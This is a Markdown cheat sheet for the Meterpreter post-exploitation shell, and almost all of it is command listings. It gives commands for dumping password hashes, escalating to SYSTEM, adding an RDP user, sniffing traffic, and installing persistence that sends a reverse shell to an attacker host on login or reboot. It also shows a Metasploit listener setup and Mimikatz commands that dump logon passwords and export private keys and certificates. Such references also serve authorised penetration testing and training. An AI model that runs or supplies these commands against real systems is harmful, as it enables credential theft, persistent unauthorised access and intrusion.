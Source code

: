 # Meterpreter

## Basic commands

These commands are the same both on Windows and \*nix systems. File paths follow the \*nix standard i.e.`/etc/passwd`in windows it's necessary to escape the left dash i.e.`c:\\program\ files\\test`. If no path is specified most commands will default to local folder.

```
pwd
ls
ps
cd <path>                    
cat <file>
edit <file>
search -f <pattern> <path>
upload <filename> <path>
download <file path>
execute -f <path to executable>

getuid        #get hostname + current user
sysinfo       #get arch and OS info
ipconfig      #get net information
migrate       #inject execution to another running process
shell         #spawn a shell (cmd or /bin/bash)
getsystem     #attempt to elevate current user to NT AUTHORITY / SYSTEM
background    #background the shell and go back to msf interface
reboot        #restart the machine
exit          #close remote shell
sessions <id> #switch to another running shell

run hashdump                                #obtain password hashes from windows machine
run getgui -u <user> -p <pass>              #add and RDP-enabled user to current machine
run packetrecorder -li                      #list interfaces
run packetrecorder -i <int> -l <local path> #listen on specified interface and save capture file in given local path
```

## Modules

### Traffic capture

```
use sniffer                        #enable tool
sniffer_interfaces                 #list interfaces
sniffer_dump  <int> <file path>    #retrieve data from interface to file
sniffer_start <int>                #start capturing packets on given interface
sniffer_stats <int>                #show capture data on given interface
sniffer_stop  <int>                #stop capturing on given interface
```

### Persistence

```
run persistence -U -i <timeout> -p <port> -r <host>    #sends a reverse shell at given host:port on user login
run persistence -X -i <timeout> -p <port> -r <host>    #sends a reverse shell at given host:port on machine reboot
```

Additional options

```
-A    #launch a multi/launcher to catch the connection
-L    #location to write the exploit to, default is %TEMP% will be used.
-P    #payload to use, default is windows/meterpreter/reverse_tcp.
-S    #start the agent on boot as a service (with SYSTEM privileges)
-T    #executable to use instead of a payload
```

#### Manual msf listener launch

```
use exploit/multi/handler
set PAYLOAD <payload>
set LHOST <local ip>
set LPORT <port>
exploit
```

### Mimikatz

```
load mimikatz                                   #launch with interactive mode
mimikatz_command -f sekurlsa::logonpasswords    #dump all passwords
mimikatz_command -f handle::list                #list services
mimikatz_command -f handle::tokenImpersonate    #impersonate service
```

#### Services

```
mimikatz_command -f service::list
mimikatz_command -f service::start
mimikatz_command -f service::stop
```

#### Certificates

```
mimikatz_command -f crypto::listProviders
mimikatz_command -f crypto::listKeys
mimikatz_command -f crypto::listCertificates
mimikatz_command -f crypto::exportCertificates
mimikatz_command -f crypto::exportKeys
```


